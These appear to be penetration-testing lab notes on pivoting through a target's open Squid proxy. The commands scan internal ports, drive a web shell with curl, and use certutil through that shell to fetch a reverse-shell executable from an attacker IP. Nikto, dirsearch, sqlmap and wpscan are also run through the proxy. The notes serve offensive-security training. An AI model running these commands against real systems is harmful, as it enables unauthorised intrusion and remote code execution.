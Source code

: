 ```yaml
---
category: Uncategorized
tags: []
---
```

#### Spose
```bash - kali
git clone https://github.com/aancw/spose.git && cd spose
```

```bash - kali
python3 spose.py --proxy http://$TARGET:3128 --target 127.0.0.1
```

![[Pasted image 20220610140446.png]]

#### Foxy Proxy
![[Pasted image 20220610133805.png]]

Once foxy proxy is set up, we now try visiting one of the ports found by spose:

http://127.0.0.1:3306
http://127.0.0.1:8080

Visiting 8080, we see a link for /phpmyadmin

[[phpmyadmin]]

```bash - kali
curl --proxy $TARGET:3128 "http://127.0.0.1:8080/shelly.php?cmd=whoami" 
```

[[1._Reverse Shells (WIN)#Stageless Payloads]]

[[rlwrap]]

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

[[4._File Transfers]]

```bash - kali
curl --proxy $TARGET:3128  "http://127.0.0.1:8080/shelly.php?cmd=certutil%20-urlcache%20-split%20-f%20http%3A%2F%2F192.168.49.57%2Freverse64.exe"
```

#### Nikto
```bash - kali
nikto -h $TARGET -useproxy http://$TARGET:3128
```

#### dirsearch 
```bash - kali
dirsearch -u http://$TARGET --proxy=$TARGET:3128
```

#### sqlmap
```bash - kali
sqlmap -u http://$TARGET/sqli/Less-1/?id=1 --dbs --proxy http://$TARGET:3128
```

#### Wordpress wpscan
```bash - kali
wpscan -e ap,at,tt,cb,dbe,u,m --detection-mode aggressive --plugins-detection aggressive -t 30 --url http://$TARGET --proxy http://$TARGET
```
